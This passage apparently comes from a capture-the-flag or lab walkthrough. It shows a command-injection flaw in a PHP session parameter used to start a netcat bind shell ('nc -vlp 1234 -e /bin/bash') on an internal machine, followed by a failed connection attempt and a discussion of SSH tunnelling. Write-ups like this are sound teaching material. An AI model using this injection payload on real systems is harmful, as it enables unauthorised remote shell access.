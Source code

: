 Running the ls command via the session’s parameter returns the file listing of the current present working directory - which means that the command injection vulnerability is viable.

<a href="/images/gds7-5.png"><img src="/images/gds7-5.png"></a>

Since we know that we can exploit this vulnerability, let's use netcat to open up a tcp listener.

```
($_SESSION).php?session=nc -vlp 1234 -e /bin/bash 
```

When the command inject is successful, you should see the website say __Connecting...__ which means that our tpc listener is waiting for incoming connections.

<a href="/images/gds7-6.png"><img src="/images/gds7-6.png"></a>

## Establishing a VPN Tunnel via SSH to the Internal Network:

Alright, now that we have our tcp listener running on the Captcha machine, let's attempt a connection to it!

```console
root@kali:~/gds# nc -v 192.168.0.7 1234
192.168.0.7: inverse host lookup failed: Unknown host
```

Unfortunately our connection to the Captcha machine failed. The reason being is that from our localhost, we have no way of accessing the internal network.

Although it's true that we have a running SSH Tunnel, you have to remember that this tunnel is set up specifically for us to access the website via proxy from our browser.

